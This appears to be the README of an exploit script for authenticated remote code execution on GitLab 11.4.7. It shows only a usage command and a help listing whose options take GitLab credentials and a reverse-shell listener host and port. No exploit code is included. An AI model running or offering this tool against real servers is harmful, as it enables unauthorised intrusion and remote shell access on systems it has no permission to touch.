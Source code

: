 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 
